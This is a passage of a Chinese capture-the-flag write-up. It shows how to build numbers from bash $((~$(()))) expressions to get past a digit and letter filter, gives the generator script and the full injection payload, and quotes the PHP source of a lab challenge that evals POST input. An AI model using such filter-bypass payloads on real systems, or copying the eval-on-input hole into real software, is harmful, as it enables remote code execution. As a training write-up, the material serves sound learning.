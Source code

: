 $(( ~$(( $((~$(()))) $((~$(()))) )) )) ：再对-2做一次取反得到1，所以值为1

故我们在$(( ~$(( )) ))里面放37个$((~$(())))，得到-37，取反即可得到36

脚本：

```
a = "$((~$(())))"    

a37=a*37

print(f"$(( ~$(({a37} )) ))")
```

payload：

?c=$(( ~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) )) ))

右键查看源码得到flag

### Web71：

题目附件得到的源码：

```php
error_reporting(0);

ini_set('display_errors', 0);

// 你们在炫技吗？

if(isset($_POST['c'])){

​    $c= $_POST['c'];

​    eval($c);

​    $s = ob_get_contents();

​    ob_end_clean();

​    echo preg_replace("/[0-9]|[a-z]/i","?",$s);

}else{

  highlight_file(__FILE__);

}

?>
```
